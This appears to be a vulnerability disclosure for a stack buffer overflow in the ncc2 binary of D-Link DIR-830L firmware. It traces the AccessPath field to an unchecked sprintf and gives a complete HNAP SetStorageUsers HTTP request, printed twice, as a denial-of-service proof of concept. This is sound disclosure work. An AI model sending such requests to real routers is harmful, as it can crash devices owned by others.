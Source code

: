 # Summary
There is a buffer overflow vulnerability in `ncc2` binary file of D-Link DIR830LA1_FW100B07, which can lead to denial of service or potential command execution.

Fimware download link : 
https://legacyfiles.us.dlink.com/DIR-830L/REVA/FIRMWARE/DIR-830L_REVA_FIRMWARE_1.00B07.ZIP

Affected component is `pure_GetListDirectory` function and `SharePort_CreateUser.html`.

Notice: It also exists in **HotFixed** version!

# Details
Vulnerable code is in function `pure_GetListDirectory` of `sbin/ncc2` binary file:
![image](https://github.com/user-attachments/assets/6618278d-1537-4ef2-9c2f-6944bd878b2a)


Parameter `ListDirectoryPath` comes from XML form, and then use vulnerable funtion `sprintf` to concatenate string v34 to v35.

No length check for v34 leads to buffer overflow vulnerability.

However, it is a little bit difficult to find where `ListDirectoryPath` comes from. 

After a while, I find that corresponding web interface is `/SharePort_CreateUser.html`,
click  settings - shareport - create user:
![image](https://github.com/user-attachments/assets/7b747740-5551-4929-b99b-4ddb9b1a84e7)

The button `Browse` doesn't work, but we can use ctrl+shift+C to find the element:
![image](https://github.com/user-attachments/assets/12abce4e-ff70-4789-abad-9b721616249d)

![image](https://github.com/user-attachments/assets/767a9cad-f92e-4ecd-9f6d-f239fa73de4d)


Then use burpsuite to intercept the packet to find the format:
![image](https://github.com/user-attachments/assets/936766c0-9d75-4b41-bf3e-9ab7e49f2e05)

I infer that `AccessPath` is `ListDirectoryPath`.

We capture the packet and change the value of `<AccessPath>xxx</AccessPath>` to an overlong string, which can cause a stack overflow and lead to a denial of service.

**PoC**:
```html
POST /HNAP1/ HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/xml

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: text/xml

SOAPACTION: "http://purenetworks.com/HNAP1/SetStorageUsers"

HNAP_AUTH: D1B21016C1C1F3792EFE725C756CAFB3 1730098755

Content-Length: 876

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/SharePort_CreateUser.html

Cookie: uid=pX66zWxIpD



<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetStorageUsers>
	<StorageUserInfoLists>
		<StorageUser>
			<UserName>guest</UserName>
			<Password>88170f76bd478c8d8234720e5899f4178c170f7656478cc68234210e5864f4178c170f7656478cc68234210e5864f4178c170f7656478cc68234210e5864f417</Password>
			<AccessPath></AccessPath>
			<Permission>false</Permission>
		</StorageUser>
	<StorageUser><UserName>nope</UserName><AccessPath>BufferOverflow...</AccessPath><Permission>false</Permission><Password>788d0f763d478c428234520e58aef4178c170f7656478cc68234210e5864f4178c170f7656478cc68234210e5864f4178c170f7656478cc68234210e5864f417</Password></StorageUser></StorageUserInfoLists>
</SetStorageUsers>
</soap:Body>
</soap:Envelope>
```
![DIR830-BufferOverflow](https://github.com/user-attachments/assets/47b48f16-3bb2-4fd3-a581-cf256ba71179)

# PoC
**Login** first, then visit `SharePort_CreateUser.html`, use burpsuite to intercept and edit the value of `AccessPath`:
```html
POST /HNAP1/ HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/xml

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: text/xml

SOAPACTION: "http://purenetworks.com/HNAP1/SetStorageUsers"

HNAP_AUTH: D1B21016C1C1F3792EFE725C756CAFB3 1730098755

Content-Length: 876

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/SharePort_CreateUser.html

Cookie: uid=pX66zWxIpD



<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetStorageUsers>
	<StorageUserInfoLists>
		<StorageUser>
			<UserName>guest</UserName>
			<Password>88170f76bd478c8d8234720e5899f4178c170f7656478cc68234210e5864f4178c170f7656478cc68234210e5864f4178c170f7656478cc68234210e5864f417</Password>
			<AccessPath></AccessPath>
			<Permission>false</Permission>
		</StorageUser>
	<StorageUser><UserName>nope</UserName><AccessPath>BufferOverflow...</AccessPath><Permission>false</Permission><Password>788d0f763d478c428234520e58aef4178c170f7656478cc68234210e5864f4178c170f7656478cc68234210e5864f4178c170f7656478cc68234210e5864f417</Password></StorageUser></StorageUserInfoLists>
</SetStorageUsers>
</soap:Body>
</soap:Envelope>
```
![DIR830-BufferOverflow](https://github.com/user-attachments/assets/47b48f16-3bb2-4fd3-a581-cf256ba71179)

